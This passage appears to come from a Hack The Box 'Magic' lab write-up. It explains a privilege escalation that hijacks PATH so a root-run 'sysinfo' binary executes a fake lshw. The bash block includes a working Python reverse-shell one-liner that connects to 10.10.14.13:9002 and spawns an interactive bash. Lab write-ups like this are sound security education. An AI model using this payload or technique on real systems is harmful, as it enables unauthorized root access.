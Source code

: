 At this point, I needed to understand what this binary was. Running it spits out a bunch of system diagnostics (hence "system info"). But where was it getting this information, and what functions was it calling?

There is a sysinfo package in apt, but it did not look to be installed on the server. Interesting. I choose to grab `pspy` from my local machine, and see how this binary was running. `Pspy` monitors all the processes on a machine for changes. So once I ran `pspy`, and ran `sysinfo`, pspy spit out all the commands that sysinfo ran.

{:refdef: style="text-align: center;"}
![Pspy sysinfo](../../assets/img/writeups/htb/magic/pspy_sysinfo.png)
{: refdef}

So we see it calls a binary `lshw` (list hardware). This is a tool used to gather information of the hardware of a device. See its [man page](https://linux.die.net/man/1/lshw){:target="_blank"} ([4]). It also calls `fdisk`. This has to do with disk partitioning, and we will focus on lshw instead. So what did we have?

1. A binary we (as theseus) can run, which inherits root privlieges
2. Two binaries that are called during the execution of the first

So what can we do? The nice thing about linux is that there can be multiple versions of a binary on a box. But how does linux know which version of the binary to use? PATH. When searching for binaries, it searches each directory specified in the $PATH variable, in order. If it does not find the binary there, it yells at you about not existing. So what if we update the PATH, then write our own binary called lshw?

~~~bash
# Update the PATH to include /tmp
export PATH=/tmp:$PATH
touch lshw
# Open a text editor and paste in this payload
# 'python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash", "-i"]);'
# Allow lshw to be executable, otherwise the system won't recognize it
chmod +x lshw
# Open up a reverse shell listener before hand
sysinfo
# Reset PATH and clean up our mess
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
rm lshw
~~~

In picture form:

{:refdef: style="text-align: center;"}